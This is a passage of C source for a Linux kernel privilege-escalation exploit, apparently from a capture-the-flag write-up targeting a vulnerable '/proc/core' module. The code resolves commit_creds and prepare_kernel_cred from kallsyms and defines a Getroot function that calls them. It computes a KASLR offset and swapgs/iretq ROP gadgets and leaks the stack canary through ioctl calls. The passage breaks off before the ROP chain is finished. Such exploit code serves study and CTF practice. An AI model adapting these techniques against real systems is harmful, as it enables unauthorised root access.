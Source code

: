 ```c
{
	char *ptr;
	char buf[0x40];
	FILE* fd = fopen("/tmp/kallsyms","r");
	if(!fd)
	{
		printf("[-] Open /tmp/kallsyms ERROR.\n");
		return 0;
	}
	while(fgets(buf,sizeof(buf),fd))
	{
		if(commit_creds_addr && prepare_kernel_cred_addr)
			return 1;
		if (strstr(buf, "commit_creds")) 
		{
            commit_creds_addr = strtoull(buf, &ptr, 16);
			printf("[+] Find: commit_creds: 0x%llx\n",commit_creds_addr);
        }
        if (strstr(buf, "prepare_kernel_cred")) 
		{
            prepare_kernel_cred_addr = strtoull(buf, &ptr, 16);
			printf("[+] Find: prepare_kernel_cred: 0x%llx\n",prepare_kernel_cred_addr);
        }
	}
	return 0;
}

void Getroot()
{
	char* (*pkc)(int) = prepare_kernel_cred_addr;
	void (*cc)(char*) = commit_creds_addr;
	(*cc)((*pkc)(0));
}

int main()
{
    save_status();
	int f=find_symbols();
	if(!f)
	{
		printf("[-]Find Symbols ERROR.\n");
		exit(0);
	}
	
	vmlinux_base = commit_creds_addr - 0x9c8e0;
	size_t offset = vmlinux_base - raw_vmlinux_base;
	size_t swapgs = 0xffffffff81a012da + offset;	//swapgs; popfq; ret;
	size_t iretq = 0xffffffff81050ac2 + offset;     //iretq; ret;
	size_t rop[0x100];
	char user_buf[0x40] = {0};
    int i;

	int fd = open("/proc/core", O_RDWR);
    if (!fd) {
        puts("[-] OPEN /proc/core ERROR.");
        exit(0);
    }
	ioctl(fd, CORE_OFF, 0x40);
    ioctl(fd, CORE_READ, user_buf);  //leak canary
	size_t canary = ((size_t *)user_buf)[0];
    printf("[+] Find canary: 0x%llx\n", canary);

    for(i = 0; i < 10; i++)
```